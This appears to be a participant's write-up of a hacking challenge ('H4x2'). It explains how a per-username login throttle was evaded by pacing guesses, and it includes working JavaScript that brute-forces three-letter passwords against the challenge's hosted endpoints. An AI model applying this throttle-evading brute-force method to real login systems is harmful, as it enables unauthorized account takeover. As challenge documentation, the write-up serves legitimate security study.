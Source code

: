 <h2>Online Password Brute Force</h2>

TLDR: I ran a code to online bruteforce the password

If you played around with the login system, you probably noticed that it stops you from attempting too many times in a row. For those who are new, this throttling mechanism also existed in iteration 1. 
However, this time it's slightly different. In iteration 1, throttling was triggered by the IP address, while this iteration's throttling was based on the username 
(i.e. trying to log in with the same username multiple times triggers the throttle).

I located the code for throttling in H4x2-Node/H4x2-Node/Components/ThrottlingManager.cs:

![throttling_code](diagrams/2.0.png)

It says that the website allows you to send the same username 10 times to the orks before they start throttling you (for 60 seconds initially) 
but in practice, you only get 5 chances. This is probably because  data is sent to the orks twice per authentication (I'm not entirely sure)

So I created a bruteforcing script that tries all the letter combos from AAA -> ZZZ, where it would: try 5 -> wait 60+ seconds -> try the next 5 -> wait 60+ seconds .... as to never trigger the throttle 
doing some quick maths:

there are 26^3 = 17576 letter combinations in total.

if trying 5 passwords takes 63 seconds, trying all 17576 combos would take....

17576 * 63/5 = 221458 seconds = 61.5 hours

so about two days and a half, in the worst case. Fortunately, it finished in about a day and a half

Here's the code I used to brute force:

```
export async function getRandom() {

  var config = {
    simulatorUrl: 'https://h4x22simulator.azurewebsites.net/',
    vendorUrl: 'https://h4x22ork2.azurewebsites.net/'
  }

  const throttleTime = 63
  var count = 0
  const username = 'test'

  for (let i = 0; i < 26; i++) {
    var first = String.fromCharCode(65 + i)
    for (let j = 0; j < 26; j++) {
      var second = String.fromCharCode(65 + j)
      for (let k = 0; k < 26; k++) {
        var third = String.fromCharCode(65 + k)
        const bruteVal = first + second + third

        var signin = new SignIn(config);
        try {
          var decrypted = await signin.start(username, bruteVal, 'https://h4x22vendor.azurewebsites.net/')
          console.log(bruteVal, ":", decrypted);
          alert(bruteVal + ": " + decrypted);
          return
        }
        catch {
          console.log(bruteVal, ": null")
        }

        count += 1;
        if (count == 5) {     // throttle triggers at 6 sign-ins in a row. After 5 sign-ins, wait for a minute to cool down 
          wait(throttleTime)
          count = 0;
        }
      }
    }
  }
}

function wait(s) {
  var start = new Date().getTime();
  var end = start;
  while (end < start + s * 1000) {
    end = new Date().getTime();
  }
}
```

and since I am running this code on a locally hosted client, I slightly modified the signin.start() function in SignIn.js to take one more argument, the real vendor url (rather than the local one). 

```
    /**
     * Authenticates a user to the ORKs and decrypts their encrypted secret held by vendor.
     * @param {string} username 
     * @param {string} password 
     * @returns {Promise<string>}
     */
    async start(username, password, vendorUrl) {    <------added vendorUrl as an argument
        //hash username
        const uid = Bytes2Hex(await SHA256_Digest(username)).toString();
        //convert password to point
        const passwordPoint = (await Point.fromString(password));

        // get ork urls
        const simClient = new SimulatorClient(this.simulatorUrl);
        const orkInfo = await simClient.GetUserORKs(uid);
        // console.log("orkInfo", orkInfo)

        const prismFlow = new PrismFlow(orkInfo);
        const CVK = await prismFlow.Authenticate(uid, passwordPoint);

        const vendorClient = new VendorClient(vendorUrl, uid);
        const encryptedCode = await vendorClient.GetUserCode();
        console.log("encryptedCode", encryptedCode)

        return await decryptData(encryptedCode, BigIntToByteArray(CVK));
    }
```
